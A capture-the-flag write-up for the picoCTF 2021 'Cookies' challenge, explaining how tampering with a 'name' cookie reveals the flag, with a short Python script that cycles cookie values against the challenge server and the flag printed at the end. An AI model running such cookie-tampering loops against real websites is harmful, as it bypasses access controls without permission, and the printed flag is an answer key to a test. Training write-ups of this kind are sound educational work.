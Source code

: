 # picoCTF2021 Cookies Write Up

## Description

> Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:29649/

## Solution

The site provides an interface for searching cookies. Trying the prefilled string `snickerdoodle` results in the following output:

> That is a cookie! Not very special though...

Analysing the network traffic, we can see that the website initially has a cookie called name set to -1 which is then set to 0 after sending a POST request to the `/search` endpoint. Then a GET request is sent to the `/check` endpoint including this cookie value, resulting in the success page being loaded.

Using this information I tried setting the name cookie value to 1 before sending the POST request. This resulted in the same response, although this time for the cookie type chocolate chip. From here I decided to iterate over the integers from 1 to 100, setting each one to the value of the name cookie and observe if the flag popped up. A simple script to do this is below:

```python
import requests
from time import sleep
for i in range(1, 100):

    header = {'Cookie': f'name={i}'}
    sleep(0.2)
    response = requests.get('http://mercury.picoctf.net:29649/check', headers=header)
    if b'picoCTF{' in (response.content or response.headers):        
        print(response.content)
        print(response.headers)
        break
```

This eventually revealed the flag:

```
picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}
```
